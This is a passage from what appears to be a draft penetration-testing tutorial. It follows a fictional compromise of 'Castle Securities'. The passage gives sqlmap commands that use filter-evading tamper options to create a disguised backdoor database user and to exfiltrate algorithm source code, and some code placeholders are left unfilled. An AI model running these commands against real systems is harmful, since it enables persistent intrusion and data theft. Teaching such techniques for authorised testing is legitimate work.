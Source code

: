Command execution provides access to algorithm deployment systems, backup files, and production configurations that extend your access beyond the database.

### Advanced Persistent Access and Data Exfiltration

Professional database exploitation requires establishing persistent access and developing systematic data exfiltration capabilities that survive system updates and security patches.

[PLACEHOLDER:CODE Name: Database persistence and systematic exfiltration framework. Purpose: Demonstrates techniques for maintaining database access and systematically exfiltrating large datasets while avoiding detection. Shows professional persistence techniques. Value: Medium.]

Create database backdoors for persistent access:

```bash
sqlmap -u "https://research.castle-securities.com/search?q=ARGOS" \
       --cookie="session=abc123def456" \
       --batch \
       --tamper=between,randomcase,space2comment \
       --sql-query="CREATE USER 'maintenance'@'%' IDENTIFIED BY 'castle_backup_2025'"
```

This creates a legitimate-looking user account that survives application updates.

Set up systematic data exfiltration that extracts algorithm updates automatically:

```bash
# Extract new algorithm versions automatically
sqlmap -u "https://research.castle-securities.com/search?q=ARGOS" \
       --cookie="session=abc123def456" \
       --batch \
       --tamper=between,randomcase,space2comment \
       --sql-query="SELECT * FROM algorithm_source_code WHERE created_date > '2025-03-01'" \
       --dump-file="/tmp/argos_updates.csv"
```

This extracts any algorithm modifications made after your initial compromise.

---

## Professional Database Security Assessment Integration

Your successful ARGOS extraction represents individual technical achievement, but professional database security assessment requires integrating database testing with comprehensive security evaluation methodology.

### Database Testing Within Complete Security Assessment

Professional database exploitation connects with other attack vectors discovered in previous chapters to create comprehensive system compromise rather than isolated database access.

[PLACEHOLDER:CODE Name: Integrated database exploitation with multi-vector attack coordination. Purpose: Shows how database access integrates with previous authentication bypass, file upload, and network access to create comprehensive system compromise. Value: High.]

Your database access enhances other attack vectors:

